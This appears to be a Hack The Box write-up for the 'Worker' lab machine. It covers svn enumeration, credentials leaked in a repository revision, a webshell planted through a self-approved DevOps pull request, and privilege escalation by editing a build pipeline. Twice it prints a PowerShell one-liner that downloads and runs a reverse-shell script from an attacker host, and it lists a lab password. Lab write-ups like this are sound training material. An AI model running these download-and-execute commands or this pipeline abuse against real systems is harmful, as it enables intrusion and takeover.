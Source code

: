 

# Box 



![worker](img/Screenshot_2020-12-24_16-56-03.png)

https://www.hackthebox.eu/home/machines/profile/270

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents 

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents

## Enumeration

Let's start with nmap : 

```bash
nmap -sC -sV -oN nmap 10.10.10.203
```

![Screenshot_2020-12-23_12-24-50](img/Screenshot_2020-12-23_12-24-50.png)

We have an IIS webpage. I look for an IIS wordlist to be used with dirb.

![Screenshot_2020-12-23_14-37-11.png)](img/Screenshot_2020-12-23_14-37-11.png)

I find webpages with a 403 error but I can't do anything with those.

Let's take a look at the svn that we found on the nmap : 

![img/Screenshot_2020-12-23_14-40-50.png](img/Screenshot_2020-12-23_14-40-50.png)

I find a file moved.txt that we can read with :

```bash
svn cat svn://10.10.10.203/moved.txt
```

In this file we find out a suddomain called  http://devops.worker.htb. We have to authenticate to see the webpage.

![authenticaiton](img/Screenshot_2020-12-23_14-42-26.png)



I find an index.html webpage and there are more subdomains in it.

![file](img/Screenshot_2020-12-23_16-09-26.png) 

After visiting each website, it seems that those websites are useless. 

I got back to svn to see if I missed something so I check the logs :

```bash
svn log svn://10.10.10.203
```

We can see that there are 5 revisions : 

![deployement](img/Screenshot_2020-12-24_05-34-54.png)

There is one particulary interesting which is the one with the : "added deployment script" text, I download it :

```bash
svn export --revision r2 svn://10.10.10.203 r2
```

## Exploitation

We find credentials in a file :

![credentials](img/Screenshot_2020-12-24_05-36-51.png)

We can now authenticate to the http://devops.worker.htb webpage. 

![devops.worker.htb](img/Screenshot_2020-12-24_05-37-33.png)



We find a new repository called "SmartHotel360" but it seems that we can't do anything with it.

We can modify the code of the previous website that we visited earlier for example : http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha.

![master](img/Screenshot_2020-12-24_11-14-10.png)

Make a new branch where you can upload a custom code : 

![new_branch](img/Screenshot_2020-12-24_11-15-06.png)

I upload an aspx code because I've tried with php but it doesn't work. 

You can do a pull request by approving yourself the changes and adding a new work item.

![pr](img/Screenshot_2020-12-24_11-17-17.png)



We can now build our application : 

![building](img/Screenshot_2020-12-24_11-19-34.png)

Go on the website of your choice and get to your uploaded code, mine is : http://alpha.worker.htb/cmdasp.aspx

And we have our webshell.

![webshell](img/Screenshot_2020-12-24_11-23-25.png)



Now let's get a reverse_shell thanks to our webshell  : 

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```



Reverse_shell : 

![reverse_shell](img/Screenshot_2020-12-24_11-21-41.png)

## Post-Exploitation

### User

We are not a user yet.

I've read the logs of the builds before so I know there is a /w drive.

I find an interesting file called "passwd" :

![ls_passwd](img/Screenshot_2020-12-24_12-28-34.png)

In this file we can find a lot of credentials : 

![passwd](img/Screenshot_2020-12-24_11-48-55.png)

The only interesting line is :  `robisl = wolves11` because I found earlier that there is C:\Users\robisl\ folder in the C: drive.

Let's use the tool evil-winrm (https://github.com/Hackplayers/evil-winrm) to log in. We now have our user.txt hash.

![user](img/Screenshot_2020-12-24_12-30-45.png)

### Root

Now we can log in the website with the robinsl credential.

We have a new repository : 

![projet_robi](img/Screenshot_2020-12-24_15-40-07.png)



We have a build.ps1 file. My first attempt was to build the website without changing anything. It didn't work because dotnet is not on the machine.

I try to modify the build.ps1 file by using our previous exploit. It works perfectly and I can build my projet with the command : 

```powershell
whoami
```



![whoami](img/Screenshot_2020-12-24_15-35-59.png)



We are nt authority\system ! We can get a reverse shell by using the previous exploit and downloading a reverse_shell.

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```

Here is my yaml file to build the project : 

![build_yaml](img/Screenshot_2020-12-24_15-48-36.png)

We got our reverse_shell and the hash. 

![reverse_admin](img/Screenshot_2020-12-24_16-06-53.png)